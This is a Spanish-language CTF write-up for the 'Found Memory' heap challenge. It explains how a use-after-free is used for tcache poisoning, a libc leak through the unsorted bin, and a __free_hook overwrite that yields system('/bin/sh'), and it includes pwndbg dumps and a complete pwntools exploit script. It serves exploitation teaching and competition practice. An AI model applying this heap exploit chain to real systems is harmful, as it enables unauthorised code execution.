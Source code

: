 # Found Memory

Este reto es similar a Lost Memory. Podemos:
- Reservar chunks de 0x30 bytes en el heap
- Liberarlos
- Leerlos
- Escribirlos

Al liberarse memoria no se asigna NULL a los punteros asi que tenemos una vulnerabilidad Use After Free.

### libc leak

Se liberan tres chunks y se sobreescribe el fd del segundo en el tcache para que apunte a la cabecera de chunk1
```
 tcache -> chunk2 -> chunk1 -> chunk0
                  fd        fd
                            -> chunk1 (header)
```

Dump de pwndbg:
```
tcachebins
0x40 [  3]: 0x5593dad4c320 —▸ 0x5593dad4c2e0 —▸ 0x5593dad4c2a0 ◂— 0

tcachebins
0x40 [  3]: 0x5593dad4c320 —▸ 0x5593dad4c2e0 —▸ 0x5593dad4c2d0 ◂— 0

pwndbg> x/20xw   0x5593dad4c2a0
0x5593dad4c2a0: 0x00000000      0x00000000      0xdad4c010      0x00005593
0x5593dad4c2b0: 0x00000000      0x00000000      0x00000000      0x00000000
0x5593dad4c2c0: 0x00000000      0x00000000      0x00000000      0x00000000
0x5593dad4c2d0: 0x00000000      0x00000000      0x00000041      0x00000000
0x5593dad4c2e0: 0xdad4c2d0      0x00005593      0xdad4c010      0x00005593
```


Se reserva para obtener un puntero a la cabecera de chunk1 y se escribe en el campo `size` un valor grande (0x441). Cuando este chunk se libere sera enviado a `unsorted bin` por ser demasiado grande para `tcache`.

El primer chunk en unsorted bin tiene su fd y bk apuntando a direcciones de libc:
```
unsortedbin
all: 0x5607e59042d0 —▸ 0x7f60399d8be0 ◂— 0x5607e59042d0
```

``` python
free(0)
free(1)
free(2)
edit(1, p8(0xd0)) 
alloc() # c2 
alloc() # c1 
alloc() # c1 
edit(2, p64(0)+p64(0x441))
free(1) 
view(1)
leak = u64(r.recv(8))
```


### ret2libc

Finalmente podemos hacer un ret2libc usando el hook `__free_hook` que es llamado en lugar de `free` si no es nulo. 

Apuntando `__free_hook` a `system` y poniendo el argumento `/bin/sh\0` en el chunk a liberar conseguimos llamar a `system("/bin/sh")`

Estado del tcache durante el proceso:
```
 tcache -> chunk20 -> chunk19 -> __free_hook (puntero a system)
                  fd         fd
```

```python
#tcache poison to get a shell by overwriting the free hook ( < glibc 2.31 )
free(19)
free(20)
edit(21, b"/bin/sh\0")
edit(20, p64(libc.sym.__free_hook))
alloc()
alloc()
edit(19, p64(libc.sym.system))
rcu(b">")
#shell
sl(b"2")
sla(b"free:",bc(21))
#========= interactive ====================
r.interactive()
```

Exploit completo:
``` python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./found_memory")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
break menu
'''
def start():
    if args.REMOTE:
        return remote("challenge.nahamcon.com", 32396)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])

r = start()

def rcu(d1, d2=0):
  r.recvuntil(d1, drop=True)
  if (d2):
    return r.recvuntil(d2,drop=True)
libcbase = lambda: log.info("libc base = %#x" % libc.address)
logleak = lambda name, val: log.info(name+" = %#x" % val)
sa = lambda delim, data: r.sendafter(delim, data)
sla = lambda delim, line: r.sendlineafter(delim, line)
sl = lambda line: r.sendline(line)
bc = lambda value: str(value).encode('ascii')
demangle_base = lambda value: value << 0xc
remangle = lambda heap_base, value: (heap_base >> 0xc) ^ value

#========= exploit here ===================
rcu(b">")
r.timeout = 1
def alloc():
    sl(b"1")
    line = r.recvline()
    rcu(b">")
    print(line.decode())

def free(index):
    sl(b"2")
    sla(b"Index to free: ", bc(index))
    rcu(b">")

def view(index):
    sl(b"3")
    sla(b"Index to view: ", bc(index))
    
def edit(index, data):
    sl(b"4")
    sla(b"Index to edit: ", bc(index))
    sa(b"Enter data: ", data)
#alloc chunks 24 is more than enough
for i in range(24):
    alloc()

#libc leak
free(0)
free(1)
free(2)
edit(1, p8(0xd0)) 
alloc() # c2 
alloc() # c1 
alloc() # c1 
edit(2, p64(0)+p64(0x441))
free(1) 
view(1)
leak = u64(r.recv(8))
logleak("libc leak", leak)
rcu(b">")
libc.address = leak - 0x1ecbe0
libcbase()

#tcache poison to get a shell by overwriting the free hook ( < glibc 2.31 )
free(19)
free(20)
edit(21, b"/bin/sh\0")
edit(20, p64(libc.sym.__free_hook))
alloc()
alloc()
edit(19, p64(libc.sym.system))
rcu(b">")
#shell
sl(b"2")
sla(b"free:",bc(21))

#========= interactive ====================
r.interactive()
```


